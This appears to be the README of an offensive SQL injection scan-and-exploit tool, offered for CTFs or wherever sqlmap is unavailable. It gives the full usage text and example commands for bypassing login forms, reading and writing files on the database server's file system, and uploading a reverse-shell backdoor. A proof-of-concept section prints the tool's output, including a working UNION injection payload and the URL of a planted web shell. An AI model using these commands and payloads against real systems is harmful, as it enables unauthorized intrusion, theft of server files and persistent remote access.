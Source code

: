 
#####  ____   ____   ____   ____ _     _       _              _ 
##### |  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
##### | |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
##### |  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
##### |_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
#####        \____/ \_\/_/                                      

##### Find all scripts in: https://github.com/roughiz


##### SQLI script by R0()Gh1z
# -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

# sql_injection
A sql injection scan and exploit script

This script can be used if you can't use sqlmap, or for any restriction like wih some ctfs.

It scan if a parameter is injectable , and also find how to exploit it.

## Functions:

##### . Scan
##### . Bypass a blind authentication Form with return message (true,false)
##### . Found an injection
##### . Define a startsWith of an injection
##### . Use of proxy to debug
##### . Read a file from the DBMS
##### . Write a file into the DBMS
##### . Upload a reverse shell into the DBMS 


## Use

```
usage: sql_injection [-h] --data DATA [-m METHOD] [--file-dest REMOTEPAH]
                     [--file-write LOCALPATH] [--file-read PATHTOREAD]
                     [--upload-revshell REVSHELLPATH] [-H HEADER] [-c COOKIES]
                     -u URL -p PARAMETER [-ns BYPASS] [-s FOUND] [-l LEVEL]
                     [--prefix PREFIX] [--proxy] [-v]

A sql injection scan and exploit script

optional arguments:
  -h, --help            show this help message and exit
  --data DATA           Data string to be sent through POST/GET Like
                        "category=2&productId=1&productName=name"
  -m METHOD, --method METHOD
                        Htp method to use for injection, set to POST by
                        default
  --file-dest REMOTEPAH
                        Back-end DBMS absolute filepath to write to
  --file-write LOCALPATH
                        Write a local file on the back-end DBMS file system
  --file-read PATHTOREAD
                        Read a local file on the back-end DBMS file system
  --upload-revshell REVSHELLPATH
                        Upload a rev shell in the host. The script verify if
                        rev-shell is accessible from outside
  -H HEADER             One or multiple header for the request, separate with
                        a space Use like 'key1:value1 key2:value2'
  -c COOKIES, --cookies COOKIES
                        One or multiple cookies values for the request,
                        separate with a space Use like 'PHPSESSID=shuv7rnuv
                        UserToken=yes'
  -u URL, --url URL     The url to use for sqli
  -p PARAMETER, --parameter PARAMETER
                        The injectable parameter
  -ns BYPASS, --not-string BYPASS
                        Define the failed login message. Script try sqli until
                        this string is not in the request output
  -s FOUND, --string FOUND
                        Define the successfully login message. Script try sqli
                        until the string is in the request output
  -l LEVEL, --level LEVEL
                        The level of the scan (l|h) "l" for little, and "h"
                        for huge
  --prefix PREFIX       Define a prefix variable for the sqli. Per example "1
                        "
  --proxy               Use a default proxy at "127.0.0.1:8080". set to False
                        by default
  -v, --verbose         Define verbose output. set to False by default
```

## Examples

#### Bypass a form authetication returning a text when false

```
$ sql_injection -u http://host/index.php --data "username=admin&password=admin" -p username -ns "Your Login Name or Password is invalid" 
```

#### Bypass a form authetication returning a text when true

```
$ sql_injection -u http://host/index.php --data "username=admin&password=admin" -p username -s "Success" 
```

#### Found an injection

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId 
```

#### Found an injection with verbose mode and also using a local proxy

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId -v --proxy
```
#### Read a file from the DBMS

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId   --file-read "C:/Inetpub/wwwroot/view_product.php"
```

#### Write a file into the DBMS

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId   --file-write /tmp/output.txt --file-dest "/InetPub/wwwroot/test.txt"
```

#### Upload a reverse shell into the DBMS 

```
$ sql_injection -u http://10.10.10.10:8080/complain/view.php -m GET -H "Agent:roughiz" --data "mod=admin&view=repod&id=plans" -p id  --cookie "PHPSESSID=9cc97jn016e2naklhp4rnj64j0"  --upload-revshell shell_cmd.php
```

## Poc

```
$ sql_injection -u http://box/view_product.php -H "X-Forwarded-For:192.168.1.2 Agent:roughiz" --data "productId=1" -p productId  --file-write test.txt --file-dest "C:/Inetpub/wwwroot/uploads/test.txt" --file-read "/Inetpub/wwwroot/cx3iSfa2OwsY.php"  --upload-revshell ./shell_cmd.php

[SQLI] The parameter "productId" is injectable
[SQLI] Blind injection use code error to analyse injection
[Exploit] Found a sqli injection: -8408 UNION ALL SELECT CONCAT(0x716a6b6a54,0x57795a66454142,0x5562626b71)#
[Exploit] The Head: (-8408 UNION ALL SELECT  ) and the comment char: (#)
[Upload] Upload a file through sqli
Do you want confirmation that the file 'test.txt' has been successfully written on the backend file system ('C:/Inetpub/wwwroot/uploads/test.txt')?. 'No' by default: [y/n] y
[Upload] File has been successfully written on the backend 
[Upload] File verification: the local file "test.txt" and the remote file "C:/Inetpub/wwwroot/uploads/test.txt" have the same size (74 B)
[Read] The file "/Inetpub/wwwroot/cx3iSfa2OwsY.php" exists and it has the size (74 B)
[Read] File readed successfully, it will be saved at he path: "/tmp/lJ6iu9Kp__Inetpub_wwwroot_cx3iSfa2OwsY.php" 
[Reverse Shell Upload] Upload a reverse shell file through sqli
[INFO] Going to use a web backdoor to establish the tunnel
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 
[Reverse Shell Upload] Define destination directory path
what do you want to use for writable directory?
[1] Define a locations(s) path(s)
[2] Brute force search (default)
> 2
[Reverse Shell Upload] Define the DBMS server architecture
Choose the DBMS architecture?
[1] Windows
[2] Linux
[3] All (default)
> 1
[Reverse Shell Upload] The script found 1 url(s)
[URL] Try your reverse shell in the url: http://box/adbVypBUZZ9n.php uploaded in the DBMS path "/Inetpub/wwwroot/adbVypBUZZ9n.php"
```

